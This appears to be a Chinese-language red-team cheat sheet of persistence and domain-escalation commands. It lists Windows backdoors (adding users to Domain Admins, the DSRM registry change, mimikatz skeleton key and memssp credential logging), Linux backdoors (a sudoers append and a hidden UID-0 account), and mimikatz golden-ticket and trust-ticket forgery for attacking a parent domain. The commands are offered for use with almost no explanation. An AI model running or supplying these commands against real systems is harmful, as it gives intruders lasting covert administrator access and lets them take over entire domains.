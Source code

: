 

## Windows后门

~~~ABAP
net group "domain admins" myuser /add /domain

Golden ticket（黄金票据）

Silver Ticket（白银票据）

DSRM 后门：
PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

Skeleton Key：
mimikatz "privilege::debug" "misc::skeleton" "exit"

自定义 SSP DLL：
mimikatz "privilege::debug" "misc::memssp" "exit"
C:\Windows\System32\kiwissp.log
~~~

## Linux后门
~~~
 # echo "0range ALL=(ALL) ALL" >> /etc/sudoers 	将现有普通用户添加为 sudo 用户
 # useradd -u 0 -g 0 -o adv -m -s /bin/bash 	添加超管账户
ps: 相比贸然去新增用户, 把系统中现有的普通用户提升为 sudo 用户可能会更靠谱点

~~~


## 域信任关系

### 子域攻击父域 - SID History版跨域黄金票据

~~~ABAP
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData|select objectsid

mimikatz lsadump::trust

kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt
~~~

### 利用域信任密钥获取目标域的权限 - 信任票据

~~~ABAP
"lsadump::trust /patch"
"lsadump::lsa /patch"

"kerberos::golden /user:Administrator /domain:<domain> /sid:  
<domain_SID> /rc4:<trust_key> /service:krbtgt /target:<target_domain> /ticket:
<golden_ticket_path>"
~~~
